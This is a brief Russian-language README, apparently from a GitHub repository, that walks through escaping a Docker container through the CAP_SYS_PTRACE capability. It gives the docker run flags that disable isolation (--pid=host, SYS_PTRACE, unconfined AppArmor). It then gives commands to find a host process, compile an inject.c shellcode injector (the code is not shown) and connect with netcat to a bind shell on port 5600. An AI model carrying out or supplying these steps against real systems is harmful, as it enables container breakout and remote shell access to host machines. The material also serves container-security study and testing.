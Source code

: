 # CAP_SYS_PTRACE

В контейнере должны быть установлены
```bash
apt install vim # or any other editor
apt install gcc
apt install net-tools
apt install netcat
```
И контейнер должен быть в хостовом PID пространстве

## CAP_SYS_PTRACE позволяет контейнеру подключаться к процессам на хост-системе и отслеживать их. Это может быть использовано для мониторинга и даже изменения поведения процессов на хосте.

Запуск python сервера
```bash
/usr/bin/python3 -m http.server 8080
```

Запуск контейнера
```bash
docker run -it --pid=host --cap-add=SYS_PTRACE --security-opt apparmor=unconfined ubuntu_golden_image:v01 bash
```

Эксплуатация уязвимости
```bash
# List process that runs on the host and container.
ps -eaf | grep "/usr/bin/python3 -m http.server 8080" | head -n 1
# Copy and paste the payload from inject.c
vim inject.c
gcc -o inject inject.c
# Inject the shellcode payload that will open a listener over port 5600
./inject <PID>
# Bind over port 5600
nc <HOST-IP> 5600
```